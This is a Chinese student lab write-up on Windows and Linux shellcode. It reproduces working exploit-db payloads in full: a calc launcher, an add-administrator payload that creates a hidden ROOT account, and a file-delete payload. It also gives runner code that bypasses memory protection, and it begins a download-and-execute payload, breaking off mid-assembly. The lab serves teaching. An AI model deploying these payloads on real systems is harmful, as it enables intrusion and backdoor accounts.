









# 实验六 shellcode

## **一、实验目的**
* 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
   - [Windows/x64 - Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit-db.com/shellcodes/40821)
   - [Windows/x64 (XP) - Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit-db.com/shellcodes/36411) 

## **二、基础知识**
* 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址
* 跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。攻击者通过这段代码来实现攻击之后的控制等等功能。
* 早期，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这要黑客就可以远程通过命令的方式控制目标计算机了。就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
* 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。

## **三、实验内容**
### 3.1 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。

#### 【1】[Windows/x86 - Null-Free WinExec Calc.exe Shellcode](https://www.exploit-db.com/shellcodes/13828)

* 功能实现：打开计算器
```c
#include <windows.h>
#include <stdio.h>
char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";
  
int main(int argc, char** argv) //运行上面的code
{
   int (*func)();
    func = (int(*)()) code;
    (int)(*func)();
}
```
* 新建一个.c文件，执行以上代码，实验运行结果如下 ：
     
* 发现在运行 (int)(*func)() 时出错的。
* 报错0xC0000005 是Windows系统内部错误代码，表示内存访问异常。表明访问了一个未分配的内存地址，或所访问的内存地址的保护属性不允许该访问操作。比如在内存的保护属性是readonly的情况下，写入操作将不被允许。
* 这一句调用 func执行，而现在func是指向code的，也就是func的值是code的内存地址。因为它是全局变量，在程序运行起来后，就存在内存中，是进程的初始化过程就完成了内存分配，并由进程初始化程序从可执行文件中直接载入内存的。全局变量，肯定是有效地址，是可以访问的。由于code是全局变量，是数据，通常情况下，会给数据设置可读和可写的内存保护属性，但是一般不会给执行属性。但是我们要去执行它，所以可能引发了异常。

* 解决办法：VirtualProtect修改内存保护属性
    * PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行。
     ```c
     int main(int argc, char** argv)
    {
       int (*func)();
       DWORD dwOldProtect;
       func = (int(*)()) code;
       VirtualProtect(func, sizeof(code),PAGE_EXECUTE_READWRITE, &dwOldProtect);
       (int)(*func)();
    }
     ```
  * 再次执行，成功弹出计算器：
      

* 解读代码： 
  * 在图中位置下断点，调试执行并转到反汇编    
           
  * F11单步执行，发现和源代码中的汇编部分，是一样的 
               
  * 其实这段代码，就是通过前面的汇编代码，编译以后直接从汇编编译以后，从可执行文件中dump出来的。`nasm 汇编器 编译为 .o文件`   
      ```bash 
      ; nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
      ; for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
      ```  
  * 如果在C语言中编写调用WinExec函数，call之后的WinExec函数的地址是编译器帮我们在可执行程序的导入表中导入了。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。
  * 需要注意的是，我们最终是要把这代code嵌入到溢出攻击的数据中。也就是说，shellcode，其实干了一个进程初始化的过程中，操作系统在干的事情——API函数的动态链接。也就是找到需要调用的API函数的地址。
  * 早期黑客们逆向分析了Windows系统的内部代码，分析了Windows系统内部管理进程初始化相关的数据结构。发现有一个链表，管理了所有的已经加载的dll文件。这个链表，就是我们这个代码里InitOrderModuleList ,这个InitOrderModuleList 在一个称为 LDR 的数据结构里。这个LDR的数据结构，又在 PEB进程环境块这个数据结构里。而PEB数据结构，在每个进程中，是一个固定的位置，是一个绝对的常量地址。这个地址就是fs:ebx+0x30,所以地址就可以不依赖于任何API或者其他依赖，直接用汇编代码就能访问到。从这里我们能一层层找到dll的基地址,然后再从dll的基地址，通过PE文件的数据结构，文件头，找到dll的导出表。然后再从导出表中的数据结构中，通过函数名称的比较，得到已经在内存中的函数的地址。
  * 所以代码中的循环，findFunctionAddr 的递归函数，和searchLoop。就是在遍历dll的导出表。代码中大量使用到了硬编码的偏移地址，比如就是因为上面这些说到的系统的数据结构，都是固定的结构，在每个系统中都是一样的，所以可以固定。
    ```bash 
    ; Find the address of the Address Table
    mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable     = 0x777CC
    add edx, eax            ; EDX = &AddressTable        = 0x777CC + &kernel32.dll
    mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
    ```  
  * 通过系统中若干数据结构这种原始的访问方式，可以找到API函数。

#### 【2】[Windows/x64 - WinExec Add-Admin (ROOT/I@mR00T$) Dynamic Null-Free Shellcode](https://www.exploit-db.com/shellcodes/48252)
* 实现：在Windows x64环境下添加管理员用户   
  * 代码
```c
#include <windows.h>
#include <stdio.h>
char code[] = \
"\x89\xe5\x83\xec\x30\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b"
"\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7"
"\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53"
"\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\xe8\x31\xc9\xfc\x8b"
"\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x0f\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4"
"\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50"
"\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\xe8\xe8\xb0\xff"
"\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f"
"\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x72\x74\x50"
"\x68\x6d\x73\x76\x63\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x6d\x52"
"\x68\x73\x79\x73\x74\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x31\xc9\x66\xb9"
"\x4c\x45\x51\x68\x49\x53\x41\x42\x68\x64\x65\x3d\x44\x68\x65\x20\x6d\x6f\x68\x70\x6d"
"\x6f\x64\x68\x65\x74\x20\x6f\x68\x6c\x6c\x20\x73\x68\x72\x65\x77\x61\x68\x68\x20\x66"
"\x69\x68\x6e\x65\x74\x73\x54\x8b\x45\xd8\xff\xd0\x31\xc9\x51\x68\x2f\x61\x64\x64\x68"
"\x79\x21\x21\x20\x68\x43\x40\x6e\x64\x68\x72\x6e\x55\x32\x68\x75\x20\x54\x75\x68\x69"
"\x6e\x42\x75\x68\x20\x4d\x61\x6a\x68\x75\x73\x65\x72\x68\x6e\x65\x74\x20\x54\x8b\x45"
"\xd8\xff\xd0\x31\xc9\x51\xb9\x90\x61\x64\x64\xc1\xe9\x08\x51\x68\x75\x75\x20\x2f\x68"
"\x6a\x69\x6e\x42\x68\x73\x20\x4d\x61\x68\x61\x74\x6f\x72\x68\x69\x73\x74\x72\x68\x64"
"\x6d\x69\x6e\x68\x75\x70\x20\x41\x68\x6c\x67\x72\x6f\x68\x6c\x6f\x63\x61\x68\x6e\x65"
"\x74\x20\x54\x8b\x45\xd8\xff\xd0\x31\xc9\x51\xb9\x90\x61\x64\x64\xc1\xe9\x08\x51\x68"
"\x75\x75\x20\x2f\x68\x6a\x69\x6e\x42\x68\x22\x20\x4d\x61\x68\x73\x65\x72\x73\x68\x6f"
"\x70\x20\x55\x68\x65\x73\x6b\x74\x68\x74\x65\x20\x44\x68\x52\x65\x6d\x6f\x68\x75\x70"
"\x20\x22\x68\x6c\x67\x72\x6f\x68\x6c\x6f\x63\x61\x68\x6e\x65\x74\x20\x54\x8b\x45\xd8"
"\xff\xd0\x31\xc9\x51\x68\x30\x20\x2f\x66\x68\x20\x2f\x64\x20\x68\x57\x4f\x52\x44\x68"
"\x45\x47\x5f\x44\x68\x2f\x74\x20\x52\x68\x6f\x6e\x73\x20\x68\x65\x63\x74\x69\x68\x43"
"\x6f\x6e\x6e\x68\x6e\x79\x54\x53\x68\x20\x66\x44\x65\x68\x22\x20\x2f\x76\x68\x72\x76"
"\x65\x72\x68\x6c\x20\x53\x65\x68\x6d\x69\x6e\x61\x68\x5c\x54\x65\x72\x68\x74\x72\x6f"
"\x6c\x68\x5c\x43\x6f\x6e\x68\x6c\x53\x65\x74\x68\x6e\x74\x72\x6f\x68\x6e\x74\x43\x6f"
"\x68\x75\x72\x72\x65\x68\x45\x4d\x5c\x43\x68\x53\x59\x53\x54\x68\x49\x4e\x45\x5c\x68"
"\x4d\x41\x43\x48\x68\x43\x41\x4c\x5f\x68\x59\x5f\x4c\x4f\x68\x22\x48\x4b\x45\x68\x61"
"\x64\x64\x20\x68\x72\x65\x67\x20\x54\x8b\x45\xd8\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```
  * 执行代码发现同样出现了访问冲突的报错   
        
  * 方法同上，修改主函数，将访问内存的属性修改为可读可写可执行：
    ```c
    int main(int argc, char** argv)
    {
        int (*func)();
       DWORD dwOldProtect;
       func = (int(*)()) code;
       VirtualProtect(func, sizeof(code),PAGE_EXECUTE_READWRITE, &dwOldProtect);
       (int)(*func)();
    }
    ```
  * 再次执行，发现报错：系统错误5  
        
  * 按照提示使用管理员权限执行``shellcode.exe``文件 
     
  * 以管理员身份运行此程序后，执行成功
       
  * 查看计算机管理器发现，确实添加了新的root用户进入administrator组

* 解读这段shellcode代码  
    * 获取 ```kernel32.dll``` 的地址，并压入栈中
    ```
    get_kernel32_address:
    xor eax, eax
    mov eax, [fs:eax+0x30] ; EAX = &PEB
    mov eax, [eax+0xC]     ; EAX = &LDR
    mov esi, [eax+0x1C]    ; ESI = 1st entry InitOrderList - ntdll.dll
    lodsd                  ; EAX = 2nd entry InitOrderList - kernelbase.dll
    xchg esi, eax
    lodsd                  ; EAX = 3rd entry InitOrderList - kernel32.dll
    mov eax, [eax+0x8]     ; EAX = &Kernel32.dll
    push eax
    ```
    * 获取 ```kernel32.dll``` 的导出表地址，存储在 EBX 中
    ```
    get_kernel32_export_table:
    mov ebx, [eax+0x3C] ; EBX = RVA NewEXEHeader
    add ebx, eax        ; EBX = &NewEXEHeader
    mov ebx, [ebx+0x78] ; EBX = RVA ExportTable
    add ebx, eax        ; EBX = &ExportTable
    ```
    * 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
    * 根据导出表地址，获取导出序号列表的地址，并压入栈中
    ```
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
    * 根据导出表地址，获取导出地址表的地址，并压入栈中
    ```
    get_export_addr_table:
    mov edi, [ebx+0x1C] ; EDI = RVA ExportAddrTable
    add edi, eax        ; EDI = &ExportAddrTable
    push edi
    ```
    * 将`WinExec`函数名字符串压入栈中
    ```
    WinExec_String:
    push 0x456E6957 ; EniW
    ```
    * 在导出名字表里查找`WinExec`函数名,找到后获取函数地址，并存储在 EBX 中
    ```
    counter_init:
    xor eax, eax    ; EAX = Counter

    searchLoop:
    mov edi, edx    ; EDI = &ExportNameTable
    mov esi, esp    ; ESI = "WinE"
    xor ecx, ecx
    cld                  ; Process strings left to right
    mov edi, [edi+eax*4] ; EDI = RVA NthNameString
    add edi, [esp+0xC]   ; EDI = &NthNameString
    add cx, 0x4          ; ECX = len("WinE")
    repe cmpsb           ; compare [&NthNameString] to "WinExec"
    jz found             ; If [&NthNameString] == "WinExec" end loop
    inc eax              ; Counter ++
    jmp short searchLoop ; restart loop

    found:
    mov ecx, [esp+0x8]     ; ECX = &ExportOrdinalTable
    mov ax,  [ecx + eax*2] ;  AX = ordinalNumber
    mov edx, [esp+0x4]     ; EDX = &ExportAddrTable
    mov ebx, [edx + eax*4] ; EBX = RVA WinExec
    add ebx, [esp+0xC]     ; EBX = &WinExec
    ```
    * 添加用户操作，将命令字符串压入栈中，调用`WinExec`函数打开命令行，使用命令行执行命令
    ```
    add_user:
    ; Call WinExec( CmdLine, ShowState );
    ; $CmdLine = 'cmd.exe /c net user ROOT I@mR00T$ /ADD && net localgroup Administrators ROOT /ADD'
    ; $ShowState = SW_HIDE  
    xor ecx, ecx
    mul ecx
    mov al, 0x44    ; D : 44
    push eax
    push 0x44412f20 ; DA/  
    push 0x544f4f52 ; TOOR 
    push 0x2073726f ;  sro 
    push 0x74617274 ; tart 
    push 0x73696e69 ; sini 
    push 0x6d644120 ; mdA  
    push 0x70756f72 ; puor 
    push 0x676c6163 ; glac 
    push 0x6f6c2074 ; ol t 
    push 0x656e2026 ; en & 
    push 0x26204444 ; & DD 
    push 0x412f2024 ; A/ $ 
    push 0x54303052 ; T00R 
    push 0x6d404920 ; m@I  
    push 0x544f4f52 ; TOOR 
    push 0x20726573 ;  res 
    push 0x75207465 ; u te 
    push 0x6e20632f ; n c/ 
    push 0x20657865 ;  exe 
    push 0x2e646d63 ; .dmc 
    mov eax, esp    ; EAX = &CmdLine
    push ecx        ; $ShowState 
    push eax        ; $CmdLine
    call ebx        ; Call the WinExec Function
    ```

#### 【3】[Linux/x86_64 - Delete File (test.txt) Shellcode](https://www.exploit-db.com/shellcodes/46870)

* 实现：删除test.txt文件  
  * 代码：
 ```c
    #include <stdio.h>
    #include <string.h>
    char sh[]="\xeb\x0d\x6a\x57\x58\x5f\x0f\x05\x48"
          "\x31\xc0\xb0\x3c\x0f\x05\xe8\xee\xff"
          "\xff\xff\x74\x65\x73\x74\x2e\x74\x78\x74";
    void main(int argc, char **argv)
    {
        printf("Shellcode Length: %d\n", strlen (sh));
        int (*func)();
        func = (int (*)()) sh;
        (int)(*func)();
    }
 ```
* 在 Ubuntu16.04 虚拟机下新建`shellcode.c`文件，并将 C 语言代码粘贴到该文件中  
      
     
* 将 C 语言文件编译链接成可执行文件shell   
  * `gcc -fno-stack-protector -z execstack shell.c -o shell` 
* 使用`./shell`运行，可以发现test.txt文件确实被删除了，程序运行成功！

### 3.2 文件下载执行
* 修改示例代码的[shellcode](https://www.exploit-db.com/exploits/48355)，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
  * 找到`kernel32.dll`的基址
    ```asm
    ; Find kernel32.dll base address
     xor ebx, ebx
     mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
     mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
     mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
     mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
     mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
     mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
     mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
    ```
  * `kernel32.dll`导出表的地址
    ```asm
    ; Find the address of the Export Table within kernel32.dll
     mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader
     add ebx, eax            ; EBX = &NewEXEHeader
     mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable
     add ebx, eax            ; EBX = &ExportTable
     ; Find the address of the Name Pointer Table within kernel32.dll
     mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable
     add edi, eax            ; EDI = &NamePointerTable
     mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame
    
    ; Find the address of the Ordinal Table
     mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable
     add ecx, eax            ; ECX = &OrdinalTable
     mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame
    
    ; Find the address of the Address Table
     mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable
     add edx, eax            ; EDX = &AddressTable
     mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
    
    ; Find Number of Functions within the Export Table of kernel32.dll
     mov edx, [ebx+0x14]     ; EDX = Number of Functions
     mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
    ```

  * 找到函数的入口点[参考](https://www.exploit-db.com/exploits/48355)
    ```asm
    jmp short functions
    
    findFunctionAddr:
    ; Initialize the Counter to prevent infinite loop
     xor eax, eax            ; EAX = Counter = 0
     mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
    ; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
    searchLoop:
     mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
     mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
     xor ecx, ecx            ; ECX = 0x00000000
     cld                     ; clear direction flag - Process strings from left to right
     mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
     add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
     add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
     repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
     jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
     inc eax                 ; else Counter ++
     cmp eax, edx            ; Does EAX == Number of Functions?
     jb searchLoop           ;   If EAX != Number of Functions, then restart the loop
    
    found:
    ; Find the address of WinExec by using the last value of the Counter
     mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
     mov edx, [ebp-0x10]     ; EDX = &AddressTable
     mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
     mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
     add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
     ret
    
    functions:
    # Push string "GetProcAddress",0x00 onto the stack
     xor eax, eax            ; clear eax register
     mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
     push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"      
     push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
     push 0x41636f72         ; Acor : 41636f72
     push 0x50746547         ; PteG : 50746547
     mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
     call findFunctionAddr   ; After Return EAX will = &GetProcAddress
    # EAX = &GetProcAddress
     mov [ebp-0x1C], eax      ; save &GetProcAddress
    
    ; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
     xor edx, edx            ; EDX = 0x00000000
     push edx                ; null terminator for LoadLibraryA string
     push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
     push 0x7262694c         ; rbiL : 7262694c
     push 0x64616f4c         ; daoL : 64616f4c
     push esp                ; $hModule    -- push the address of the start of the string onto the stack
     push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
     mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
     call eax                ; Call the GetProcAddress Function.
     mov [ebp-0x20], eax     ; save Address of LoadLibraryA 
    
    
    ```
  * 通过刚刚得到的`LoadLibraryA`函数入口，加载`urlmon.dll`
    ```asm
    ; Call LoadLibraryA(PTR "urlmon")
    ;   push "msvcrt",0x00 to the stack and save pointer
     xor eax, eax            ; clear eax
     mov ax, 0x7472          ; tr : 7472
     push eax
     push 0x6376736D         ; cvsm : 6376736D
     push esp                ; push the pointer to the string
     mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
     call ebx                ; call the LoadLibraryA Function to load urlmon.dll
     mov [ebp-0x24], eax     ; save Address of urlmon.dll
    ```

  * 通过`urlmon.dll`获得`URLDownloadToFileA`的入口地址
    ```asm
    ; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
    xor edx, edx
    mov dx, 0x4165          ; Ae
    push edx
    push 0x6C69466F         ; liFo
    push 0x5464616F         ; Tdao
